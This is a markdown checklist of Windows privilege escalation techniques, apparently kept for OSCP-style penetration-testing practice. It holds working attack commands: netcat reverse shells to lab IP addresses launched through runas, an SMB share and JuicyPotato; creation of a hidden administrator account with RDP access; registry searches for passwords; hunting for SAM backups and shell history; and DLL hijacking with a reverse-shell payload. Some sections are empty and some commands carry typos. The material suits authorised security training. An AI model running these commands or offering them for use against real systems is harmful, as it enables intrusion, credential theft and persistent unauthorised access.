 # Windows Privilege Escallation
- [ ] OS and Kernel information: `systeminfo`
- [ ] Current User: `whoami /all`
  - [ ] [NT AUTHORITY\LOCAL SERVICE](https://itm4n.github.io/localservice-privileges/?ref=benheater.com); This will enable `SeImpersonatePrivilege`.
- [ ] Local Users: `net users`
- [ ] Local Groups: `net localgroup`
  - [ ] `LAPS Reader`: `Get-ADComputer -Property *` -> `ms-Mcs-AdmPwd`; There is also a script called `laps.py`.
- [ ] Network interfaces: `ipconfig`
- [ ] Open Ports: `netstat -ano`
- [ ] `whoami /priv` ->
  - [ ] `SeImpersonatePrivilege`
    - [ ] [PrintSpoofer](https://github.com/itm4n/PrintSpoofer): SeImpersonatePrivilege + Microsoft Windows Server 2019 Standard = PrintSpoofer64.exe
  - [ ] `AlwaysInstallElevated`
  - [ ] `SeDebugPrivilege`
- [ ] Check installed softwares: `c:\Program Files (x86)`
- [ ] `winpeas.exe cmd`
- [ ] `tasklist`
- [ ] `netstat -ano`
```
#https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
- [ ] Check file permissions: `icacls "\path\to\file"`
- [ ] If you find credentials, then you can use `runas` method to make connection with netcat
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
- [ ] Check Unqouted Path Service
```
#FIND SERVICE
wmic service get name,displayname,pathname,startmode |findstr /i "auto"

#CHANGE FILE WITH MSFVENOM PAYLOAD (DOWNLOAD WITH CERTUTIL)

#REBOOT
shutdown /r
```
- [ ] Look for passwords in registries
```
req query HKLM /f pass /t REG_SZ /s
```

---

# SeImpersonatePrivilege
- [GodPotato](https://github.com/BeichenDream/GodPotato)

---

- Check if there is a port that is open only internally (`netstat –nao`)
- Port forward if there is a new port internally and start checking it from zero
- Creating admin user which has RDP access

```
net user /add haji haji
net localgroup administrators haji /add
net localgroup "Remote Desktop Users" haji /add
```

# Shell Upgrade
```
#COPY NETCAT
cp /usr/share/windows-resources/binaries/nc.exe .

#SERVE IT VIA SMB
smbserver.py -smb2support -username evil -password evil evil $PWD

#START LISTENER ON ANOTHER PORT
nc -lnvp 80

#Execute nc.exe by using the UNC path.
net use z: \\192.168.49.57\evil /user:evil evil
Z:\nc.exe 192.168.49.57 80 -e cmd.exe
```

# Juicy Potato
We can use one of the BITS CSLIDs from here:
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
```
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

## Binary Hijacking


## DLL Hijacking


---

```
My first commands I use when getting a Windows shell are below. Enumerate OS etc, check for JuicyPotato, common password locations and running netstat.

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
whoami /priv
netstat –nao
dir C:\Windows\System32\config\RegBack\SAM
dir C:\Windows\System32\config\RegBack\SYSTEM
```

# Sensitive Files
```
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent\*" -Recurse -Force
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Force
Get-ChildItem "C:\Users\*\AppData\Local\Temp\*" -Recurse -Force
Get-ChildItem "C:\`$Recycle.Bin\*" -Recurse -Force
```

## DLL Hijacking
We will use `systeminfo`’s `tzres.dll` but you should be able to use any .dll if you are willing to do the research. Create another reverse shell outputting the file as `tzres.dll` and transfer it to the victim; placing it in the `c:\windows\system32\wbem` directory. I’m going to cancel my initial access shell and reuse port 135 because I’m fond of it, but there do not appear to be any outgoing firewall rules to prevent you from just using another port and having three shells on the box. It is probably advisable to do it that way.




--- 

# Useful Links
- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
- https://github.com/0xsyr0/OSCP
- https://github.com/frizb/Windows-Privilege-Escalation
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- https://blog.certcube.com/powerup-cheatsheet/



